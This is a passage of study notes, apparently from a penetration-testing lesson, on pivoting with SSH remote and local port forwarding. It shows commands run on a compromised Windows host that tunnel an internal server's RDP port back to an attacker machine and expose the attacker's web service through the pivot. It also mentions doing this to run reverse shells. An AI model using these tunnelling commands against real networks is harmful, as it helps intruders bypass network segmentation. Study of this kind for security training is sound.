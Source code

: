 Referring to the previous image, to forward port 3389 on the server back to our attacker's machine, we can use the following command on PC-1:

```shell-session
C:\> ssh {tunneluser}@{1.1.1.1} -R {3389}:{3.3.3.3}:{3389} -N
```

This will establish an SSH session from PC-1 to `1.1.1.1` (Attacker PC) using the `tunneluser` user.
- Since the `tunneluser` isn't allowed to run a shell on the Attacker PC, we need to run the `ssh` command with the `-N` switch to prevent the client from requesting one, or the connection will exit immediately
- The `-R` switch is used to request a remote port forward, and the syntax requires us first to indicate the *port we will be opening at the SSH server* (3389), followed by a colon and then the *IP and port of the socket we'll be forwarding* (3.3.3.3:3389). 

Note:
    The port numbers don't need to match, although they do in this example.

The command itself won't output anything, but the tunnel will depend on the command to be running. Whenever we want, we can close the tunnel by pressing CTRL+C as with any other command.

Once our tunnel is set and running, we can go to the attacker's machine and RDP into the forwarded port to reach the server:

```shell-session
munra@attacker-pc$ xfreerdp /v:{127.0.0.1} /u:{MyUser} /p:{MyPassword}
```

### SSH Local Port Forwarding
**Local port forwarding** allows us to "pull" a port from an SSH server into the SSH client. In our scenario, this could be used to take any service available in our attacker's machine and make it available through a port on PC-1. That way, any host that can't connect directly to the attacker's PC but can connect to PC-1 will now be able to reach the attacker's services through the pivot host.

Using this type of port forwarding would allow us to run reverse shells from hosts that normally wouldn't be able to connect back to us or simply make any service we want available to machines that have no direct connection to us.
	![](Pasted%20image%2020241118195945.png)

To forward port 80 from the attacker's machine and make it available from PC-1, we can run the following command on PC-1:

```shell-session
C:\> ssh {tunneluser}@{1.1.1.1} -L *:{80}:{127.0.0.1}:{80} -N
```

The command structure is similar to the one used in remote port forwarding but uses the `-L` option for local port forwarding. This option requires us to indicate the local socket used by PC-1 to receive connections (`*:80`) and the remote socket to connect to from the attacker's PC perspective (`127.0.0.1:80`).

Notice that we use the IP address 127.0.0.1 in the second socket, as from the attacker's PC perspective, that's the host that holds the port 80 to be forwarded.

Since we are opening a new port on PC-1, we might need to add a firewall rule to allow for incoming connections (with `dir=in`). *Administrative privileges are needed for this:*
